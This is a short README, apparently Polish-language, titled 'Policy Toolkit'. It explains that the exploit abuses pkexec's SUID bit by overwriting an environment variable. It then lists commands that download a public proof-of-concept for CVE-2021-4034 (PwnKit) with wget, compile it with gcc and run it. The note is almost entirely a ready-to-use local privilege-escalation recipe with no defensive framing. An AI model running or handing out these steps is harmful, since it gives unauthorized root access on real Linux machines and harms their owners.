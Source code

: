 # Policy Toolkit
<br>
Exploit wykorzystujacy slabosc w pkexec (nadpisuje zmienna srodowiskowa)<br>
plik pkexec domyslnie ma bit SUID<br><br>

wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o exploit<br>
./exploit
